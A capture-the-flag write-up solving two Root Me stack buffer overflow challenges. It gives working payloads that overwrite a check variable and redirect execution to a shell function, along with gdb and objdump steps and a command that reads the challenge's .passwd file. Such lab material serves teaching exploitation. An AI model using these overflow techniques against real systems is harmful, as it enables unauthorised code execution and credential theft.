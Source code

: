 # Root Me System Challenges
## ELF x86 - Stack buffer overflow basic 1
```c
int check = 0x04030201;
char buf[40];
```
Buffer owerflow attack.

The payload is 
```
40 * A : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
We want check to be 0xdeadbeef, so :
0xdeadbeef => efbeadde (little endian)

Exploit is : 
```
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"
```

Command to execute : 
```
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" | . ch13
```
The shell closes instantly, so we need to do : 
```
(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat) | ./ch13
```

We can then do : 
```
cat .passwd
```
to get the key.

## ELF x86 - Stack buffer overflow basic 2

"A"*128
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

```
(gdb) run
Starting program: /challenge/app-systeme/ch15/ch15 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0804000a in ?? ()

(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /challenge/app-systeme/ch15/ch15 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()

bytes.fromhex("42424242")
b'BBBB'
```
So we know the payload is : "A"*128

We need to find the adress of the shell function :
```
objdump -d ./ch15 | less
```
We find that : 08048516 <shell> :
Convertion to little-endian using python in console mode
```
b"\x08\x04\x85\x16"[::-1]
b'\x16\x85\x04\x08'
```

Exploit : 
```
(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16\x85\x04\x08"; cat) | ./ch15
```

We can then do : 
```
cat .passwd
```
to get the key.